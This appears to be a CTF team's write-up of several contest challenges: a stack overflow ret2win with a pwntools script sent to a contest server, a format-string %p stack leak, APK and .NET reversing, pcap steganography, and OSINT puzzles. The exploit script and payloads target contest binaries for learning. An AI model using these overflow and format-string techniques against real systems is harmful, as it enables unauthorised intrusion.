
We have a win function in the binary, however its never called.Lets look at the security of the binary
quixel@pop-os:~/Desktop/sniphers$ checksec --file chall2
[*] '/home/quixel/Desktop/sniphers/chall2'
Arch: amd64-64-little
RELRO: Partial RELRO
Stack: No canary found
NX: NX enabled
PIE: No PIE (0x400000)
SHSTK: Enabled
IBT: Enabled
Stripped: No
We can see that it does not contain any stack canary, nor does it have PIE which means the address of functions and variables are always the same.Lets try a buffer overflow.
quixel@pop-os:~/Desktop/sniphers$ ./chall2
Deep within the depths of binary land, a careless developer has left behind a function that grants instant victory. However, there's a catch – it's never called!
There's no easy way in, and you'll need to craft the perfect input
Enter your input: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAa
Segmentation fault (core dumped)
We get a segmentation fault which means the program crashed. So it is vulnerable to overflow, a more elagent way to verify would have been to use ghidra but hey it works.Lets look at the binary more closely with gdb
pwndbg> info functions
All defined functions:
Non-debugging symbols:
0x0000000000401000 _init
0x00000000004010b0 _start
0x00000000004010e0 _dl_relocate_static_pie
0x00000000004010f0 deregister_tm_clones
0x0000000000401120 register_tm_clones
0x0000000000401160 __do_global_dtors_aux
0x0000000000401190 frame_dummy
0x0000000000401196 win
0x00000000004011b0 main
0x0000000000401230 _fini
pwndbg> disass win
Dump of assembler code for function win:
0x0000000000401196 <+0>: endbr64
0x000000000040119a <+4>: push rbp
0x000000000040119b <+5>: mov rbp,rsp
0x000000000040119e <+8>: lea rax,[rip+0xe63] # 0x402008
0x00000000004011a5 <+15>: mov rdi,rax
0x00000000004011a8 <+18>: call 0x401080
0x00000000004011ad <+23>: nop
0x00000000004011ae <+24>: pop rbp
0x00000000004011af <+25>: ret
End of assembler dump.
We can see that the win is located at 0x0000000000401196, and since PIE is disabled, we can be certain that win is always present at that address. Now we need to find the offset needed to correctly place this address at RIP so that the program jumps to the win function.
You can use cyclic to find it, I found that its at 88. So our payload is 88 characters + address of win.
However this is a 64 bit binary and it checks for stack alignment, one way to overcome this is to use a ret instruction to align it, or we can jump one or two instructions right after the function starts. I went with the second approach, heres my pwntools script
from pwn import *
elf = ELF("chall2")
#p = elf.process()
p = remote("209.38.121.6",5007)
payload = b'a'*88+p64(0x000000000040119b)
print(p.recvuntil(b"Enter your input: "))
p.sendline(payload)
p.interactive()

We are given a apk file.Generally apk files are mostly compiled in java which makes them easy to reverse, I'll be using the MobSF framework to analyse the apk. We can run it in a docker container. I'll also be using genymotion to run an android emulator.
sudo docker run -it --rm -p 8000:8000 -p 1337:1337 \
-e MOBSF_ANALYZER_IDENTIFIER=127.0.0.1:6555 \
opensecurity/mobile-security-framework-mobsf:latest
The -e sets the environment so that mobsf can connect to our android decvice for dynamic analysis.
To load the apk in our emulator we can use adb
quixel@pop-os:~$ adb install ~/Downloads/love.apk
Heres the main file we are insterested in
package com.tamilctf.love;
import android.os.Bundle;
import android.util.Log;
import android.view.View;
import android.widget.Button;
import android.widget.EditText;
import android.widget.TextView;
import androidx.activity.EdgeToEdge;
import androidx.appcompat.app.AppCompatActivity;
import androidx.appcompat.app.AppCompatDelegate;
import androidx.constraintlayout.core.motion.utils.TypedValues;
import androidx.core.graphics.Insets;
import androidx.core.location.LocationRequestCompat;
import androidx.core.view.OnApplyWindowInsetsListener;
import androidx.core.view.ViewCompat;
import androidx.core.view.WindowInsetsCompat;
/* loaded from: classes3.dex */
public class MainActivity extends AppCompatActivity {
Button magic;
EditText partnerName;
TextView result;
EditText yourName;
public native String FlagfromJNI();
static {
System.loadLibrary("love");
}
/* JADX INFO: Access modifiers changed from: protected */
@Override // androidx.fragment.app.FragmentActivity, androidx.activity.ComponentActivity, androidx.core.app.ComponentActivity, android.app.Activity
public void onCreate(Bundle savedInstanceState) {
super.onCreate(savedInstanceState);
EdgeToEdge.enable(this);
setContentView(R.layout.activity_main);
ViewCompat.setOnApplyWindowInsetsListener(findViewById(R.id.main), new OnApplyWindowInsetsListener() { // from class: com.tamilctf.love.MainActivity$$ExternalSyntheticLambda0
@Override // androidx.core.view.OnApplyWindowInsetsListener
public final WindowInsetsCompat onApplyWindowInsets(View view, WindowInsetsCompat windowInsetsCompat) {
return MainActivity.lambda$onCreate$0(view, windowInsetsCompat);
}
});
this.yourName = (EditText) findViewById(R.id.yourname);
this.partnerName = (EditText) findViewById(R.id.partnername);
this.result = (TextView) findViewById(R.id.textView);
this.magic = (Button) findViewById(R.id.magic);
this.magic.setOnClickListener(new View.OnClickListener() { // from class: com.tamilctf.love.MainActivity.1
@Override // android.view.View.OnClickListener
public void onClick(View v) {
String yname = MainActivity.this.yourName.getText().toString().toLowerCase();
String pname = MainActivity.this.partnerName.getText().toString().toLowerCase();
if (yname.isEmpty()) {
MainActivity.this.yourName.setError("Enter your name");
return;
}
if (pname.isEmpty()) {
MainActivity.this.partnerName.setError("Enter your partner's name");
return;
}
char[] charYname = yname.toCharArray();
char[] charPname = pname.toCharArray();
String flameResult = MainActivity.this.doFlame(charYname, charPname);
MainActivity.this.result.setText(flameResult);
}
});
}
/* JADX INFO: Access modifiers changed from: package-private */
public static /* synthetic */ WindowInsetsCompat lambda$onCreate$0(View v, WindowInsetsCompat insets) {
Insets systemBars = insets.getInsets(WindowInsetsCompat.Type.systemBars());
v.setPadding(systemBars.left, systemBars.top, systemBars.right, systemBars.bottom);
return insets;
}
public String doFlame(char[] charYname, char[] charPname) {
int l;
int l2 = 1;
int sc = 0;
char[] flames = "flames".toCharArray();
String q = new String(charYname);
String w = new String(charPname);
int n = charYname.length;
int m = charPname.length;
int tc = n + m;
int i = 0;
while (i < n) {
char c = charYname[i];
int j = 0;
while (true) {
if (j >= m) {
l = l2;
break;
}
l = l2;
if (c != charPname[j]) {
j++;
l2 = l;
} else {
charPname[j] = '-';
charYname[i] = '-';
sc += 2;
break;
}
}
i++;
l2 = l;
}
int l3 = l2;
int l4 = tc - sc;
int fc = 5;
int i2 = 0;
int l5 = l3;
while (i2 >= 0) {
if (l5 == l4) {
for (int k = i2; k < "flames".length() - 1; k++) {
flames[k] = flames[k + 1];
}
int k2 = flames.length;
flames[k2 - 1] = '0';
fc--;
i2--;
l5 = 0;
}
if (i2 == fc) {
i2 = -1;
}
if (fc == 0) {
break;
}
l5++;
i2++;
}
char result = flames[0];2,213
switch (result) {
case 'a':
Log.i("affectionate", "Just a Infatuation bruhhhh");
return q + " has more AFFECTION on " + w;
case TypedValues.TYPE_TARGET /* 101 */:
Log.i("Enemy", "You are enemy bruhh");
return q + " is ENEMY to " + w;
case LocationRequestCompat.QUALITY_BALANCED_POWER_ACCURACY /* 102 */:
Log.i("Friends", "You are friends bruhh");
return q + " is FRIEND to " + w;
case AppCompatDelegate.FEATURE_SUPPORT_ACTION_BAR /* 108 */:
Log.i("Love", "You are couple's bruhh");
return q + " is in LOVE with " + w;
case AppCompatDelegate.FEATURE_SUPPORT_ACTION_BAR_OVERLAY /* 109 */:
Log.i("Flag :", FlagfromJNI());
return q + " is going to MARRY " + w;
default:
Log.i("No words", "crying only coming");
return q + " and " + w + " are SISTERS/BROTHERS ";
}
}
}
Heres the interesting part I noticed
case AppCompatDelegate.FEATURE_SUPPORT_ACTION_BAR_OVERLAY /* 109 */:
Log.i("Flag :", FlagfromJNI());
return q + " is going to MARRY " + w;
So if we get "is going to MARRY" then the flag is logged to the console with a call to FlagfromJNI().
We both tested with random inputs to see if we got the message and eventually TEST sfsf worked.
To view the logs, we can use the adb logcat command, which gives us the flag.


We are given a .pcapng file which is a network capture, We can view the file with wireshark.
I noticed that there is only one tcp stream, so lets see whats in there.

Heres the entire conversation that was recorded
Hi Charlie
Confirm ID?
From Alpha-Base-85 m0n1x90
ID Confirmed
Bravo! I think we are compromised...
Understood, lets break into streams
Got it!
Whats the status?
Hackers inflitrated. But we got the package!
Great Charlie!
Sarge says TangoDownTangoDown@123 to Captain
Gotcha!!
[an image is sent here]
Got your package to Alpha-Base-85
Okay Charlie
Will send our package later after verifying it..
Hmmm...Seems doubtful
Trust your comrades
Sure... Here is your cryptic info : 8T&W+Ec*[T?SQV/6nih&?V+U&78QE=<$;
Haah..Thanks
Soldiers don't say thanks
Base got Mayday.. Everything went south
Captain is waiting for the package. Send it soon
Sarge says TangoDownTangoDown@123 to Captain
Gotcha!!
[an image is sent here]
Got your package to Alpha-Base-85
Okay Charlie
Will send our package later after verifying it..
Hmmm...Seems doubtful
Trust your comrades
Sure... Here is your cryptic info : 8T&W+Ec*[T?SQV/6nih&?V+U&78QE=<$;
Haah..Thanks
Soldiers don't say thanks
We can extract the image from the stream and try steghide with the "cryptic info" as the password
stegide extract -sf image.jpg
then we have a password protected zip file, in the message I see a very suspicous password like string "TangoDownTangoDown@123", which turns of to be the password, and we get the flag.

The important detail to note is that this is an .NET executable, we can verify this throught the json config file, or in ghidra the function name in the dll is _CorExeMain() which is a dead giveaway.
The thing about .NET binaries is that they are compiled to a common codebase, similar to java bytecode which means that reversing the binary is very easy and the decompiled output is very similar to the source code. For this we will DnSpy or IlSpy.

We can see a verifyPassword() function that seems to check the password and give us the flag if its right.Heres the code for verifyPassword()
private static bool VerifyPassword(string password)
{
bool result;
using (MD5 md = MD5.Create())
{
byte[] bytes = Encoding.UTF8.GetBytes(password);
byte[] value = md.ComputeHash(bytes);
string a = BitConverter.ToString(value).Replace("-", "").ToLower();
result = (a == Program.storedHash);
}
return result;
}
The code basically checks if the md5 hash of your input matches the hardcoded one which is f25a2fc72690b780b2a14e140ef6a9e0
Google the hash and you can crack it, it says "iloveyou", entering that gives us the flag.
C:\Users\blaze\Downloads>"Hash the Heart.exe"
? iloveyou
TCTFxSTJ{C_H@sH_R3ver51ng_15_Fun} .... <3
This binary contains a format string vulnerability where user input is passed directly to printf() without proper formatting, this allows for us, the user to print data from the stack, which is where the flag is stored.You can verify the vulnerability by passing something like %s,%d etc, or look at the decompiled output in ghidra
Sometimes, a program just trusts whatever you say :), repeating your words without question.
But what if words could do more than just appear on the screen?
%p %p %p %p %p %p %p %p %p %p %p
0x7ffcba91b720 0x3f 0x732c43f147e2 0x9d 0x732c441e0040 0x6b61667b454b4146 0x7d67616c665f65 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025
this contains the fake flag, decode it from hex and swap endianness to get the flag.

This is a classic crackme challenge where we are given a binary, We can decompile it using ghidra, The program logic is pretty simple as it checks each character of your input using an if condition, rearranging the variables properly gives us the flag.


The id turned out to be a twitter id, which we can access using twitter.com/i/user/1778675777287901184 which takes us to users profile by the name of @thomasmorte
One of their tweets is: Base is the Boss 👋🐺👋🐽👯👊👋👁👲👮🐪👣👚👦👤👜👖👫🐧👖👫👟🐪👖👜👤👦👡👠👖👞🐫👤👜👴
We can then decode using base100 to get the flag. https://www.dcode.fr/base100-emoji-encoding

we are given a url: thomas-morte.github.io. As you can probably tell its hosted on github, a quick search on github takes us to the repo and then we can check the commits to get the flag.

These were the challenges that we were able to solve during the CTF! thank you for reading.